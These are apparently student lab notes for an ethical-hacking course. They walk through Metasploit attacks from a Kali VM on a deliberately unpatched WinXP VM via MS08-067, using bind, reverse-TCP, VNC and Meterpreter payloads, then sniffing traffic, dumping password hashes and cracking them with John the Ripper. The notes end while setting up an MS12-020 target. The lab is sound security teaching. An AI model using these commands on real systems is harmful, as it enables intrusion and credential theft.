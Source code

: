 # EHD Practical 10 - Metasploit

###### tags: #EHD 

## Table of Contents
```toc
```

## Setting Up a Target Vulnerable to MS08-067
**On Host PC**
1. Search the Internet for information about the Microsoft Security Bulletin MS08-067 and take note of the 6-digit knowledge base number
2. For this practical, the WinXP VM  is required

**On WinXP VM**
3. Go to the Control Panel and **Add or Remove Programs**
4. Check the box **Show Updates**. The list of installed programs and software updates will be displayed
5. Search the list of security updates for ones containing the Knowledge Base numbers 958644  or 2705219 of the MS08-067 or MS12-054 security bulletins. If the updates are listed on WinXP, remove them and restart the computer

> If not, WinXP is not patched against the MS08-067 vulnerability

6. Go to the Control Panel > Security Center
7. Under Manage Security Settings, select **Windows Firewall** and turn it off. The WinXP is now a vulnerable target

## Using the Metasploit Console
**On Kali VM**
> <u>Activating the Metasploit console:</u>
> - Click the Kali icon > 08 Exploitation Tools > Metasploit framework
> - Run `msfconsole` on the terminal

- To see all possible commands, type `help` at the `msf` prompt
- To see list of exploits, type `show exploits`
	- List of exploits and CVE numbers will be displayed
- To search for exploits related to SMB, type `search smb`
- To search for exploits related to MS08-067, type `search ms08_067`

1. Look for info on the exploit `ms08_067_netapi` and use it
```
info windows/smb/ms08_067_netapi
use windows/smb/ms08_067_netapi
```
2. At the exploit prompt, type `show options`
3. Set a remote host to target (RHOST)
```
set RHOST WinXP-IP
```
4. Type `show options` to view the RHOST set
5. To check which payloads can be used for a certain exploit, type the following command:
```
show payloads
```
6. View info on the payload `windows/shell/bind_tcp` and set it:
```
info windows/shell/bind_tcp
set windows/shell/bind_tcp
```
7. Type `show options` to view the options set for the payload
8. Run the exploit:
```
exploit
```

> If the exploit is successful, a remote connection will be established to the command prompt of the Windows XP VM
> - Run `dir` to list all files on the remote target
> - Type `set` to see list of current environment variables
> - To create a new user: `net user username password /add`

9. To quit from the remote connection, press <kbd>Ctrl</kbd>+<kbd>C</kbd>

## Using Reverse TCP Payload
> In the previous exploit, Kali creates a connection to the unpatched WinXP, but if the firewall on WinXP is enabled, Kali is unable to connect to WinXP
> To address this problem, the payload `reverse_tcp` tells the victim to connect to the attacker (Kali VM) as WinXP as WinXP is the one initiating the connection, hence the firewall will allow it

**On Kali VM**
1. Set the payload to `reverse_tcp`
```
set payload windows/shell/reverse_tcp
```
2. Type`show options` to see the options set
3. Specify the listening host (LHOST) that the victim should connect to
```
set LHOST Kali-IP
```
4. Run the exploit:
```
exploit
```

**On WinXP VM**
5.  On the Command Prompt, type the following to <u>view the connection Metasploit has made to the attacker system:</u>
```
netstat -an
```

## Using VNC Payload
**On Kali VM**
1. Try the exploit with the following payload:
```
set payload windows/vncinject/reverse_tcp
```
2. Type `show options` to see options set
3. Run the exploit
```
exploit
```

## Using Meterpreter
**On Kali VM**
1. Try the exploit with the following payload:
```
set payload windows/meterpreter/reverse_tcp
```
2. Type  `show options` to see options set
3. Run the exploit
```
exploit
```
4. Type `help` at the Meterpreter prompt to see all available commands
5. Type `ps` to see list of processes running on the WinXP VM
6. Type `screenshot` to take a screenshot of the WinXP VM (File is saved to a file on Kali)
7. Type `ifconfig` to list the network interfaces on the WinXP VM
8. To see all possibilities for Meterpreter scripts on Kali, type `run` and press <kbd>Tab</kbd> twice
9. To see all possibilities for Meterpreter extension modules on Kali, type `use` and press <kbd>Tab</kbd> twice
10. Type `use sniffer` to load the load the sniffer extension to do network packet capturing on the WinXP VM
11. Type `sniffer_start 2` (where 2 is the interface number of the VMWare network adapter)

**On WinXP VM**
12. Do some network activity e.g. pinging another system or browsing the Internet

**On Kali VM**
13. Type `sniffer_stats 2` to see statistics on the number of packets and bytes captured so far
14. Type `sniffer_dump 2 /tmp/winxp.cap` to save the captured packets into a file `/tmp/winxp.cap`
15. View the captured packet file using Wireshark

## Use Metasploit Meterpreter to Get Password Dump
> Use Meterpreter to dump out password hashes from the target

**On WinXP VM**
1. Go to the Control Panel > Performance and Maintenance > Admin Tools > Computer Management
2. Under Computer Management, System Tools > Local Users and Groups > Users
3. Right-click and select **New User** and create new accounts with passwords

**On Kali VM**
4. Using Metasploit, exploit WinXP with the Meterpreter payload
5. At the Meterpreter prompt, type `hashdump` to display a dump of the user accounts and hashed passwords of WinXP
6. Copy the list of user accounts and hashed passwords into a text file
7. Use John the Ripper to crack the hashed passwords
```
sudo john filename.txt
```

## Exploiting Remote Desktop
**On Host PC**
1. Search the Internet for information about the Microsoft Security Bulletin MS12-020 and take note of its Knowledge Base number

**On Win2008 VM**
2. Go to Start > Admin Tools > Services and enable **Remote Desktop Services**
3. Go to Start > right-click Computer > Properties
4. Click on Remote settings and select **Allow connections from computers running any version of Remote Desktop**